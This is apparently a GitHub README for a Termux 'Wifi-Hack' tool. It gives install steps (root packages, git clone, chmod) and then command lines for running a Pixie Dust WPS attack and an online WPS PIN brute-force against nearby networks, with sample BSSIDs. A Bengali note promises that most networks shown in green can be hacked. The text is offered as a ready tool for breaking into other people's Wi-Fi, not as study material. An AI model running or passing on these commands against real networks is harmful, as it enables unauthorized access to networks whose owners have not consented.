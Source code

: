 ## Wifi-Hack
### Hack WIfi Using Termux! (Need Rooted Device )

[![Screenshot-20240524-183227-Termux.png](https://i.postimg.cc/qMjPGGTw/Screenshot-20240524-183227-Termux.png)](https://postimg.cc/vcx2YfDx) 

### How to install :

```bash
$ pkg update && pkg upgrade
```
```
$ pkg install git python
```
```
$ apt update && apt upgrade
```
```
$ pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && termux-setup-storage
```
```
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
```
```
$ cd Wifi-Hack
```
```
$ chmod +x fück-wifi.py

```
```
Note: Now turn off Wifi 
```$ sudo python fück-wifi.py -i wlan0 -K
```
### Note: আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
পরের বার Tool অপেন করতে 
```bash
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K 
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
- # Thanks For Using My Tool
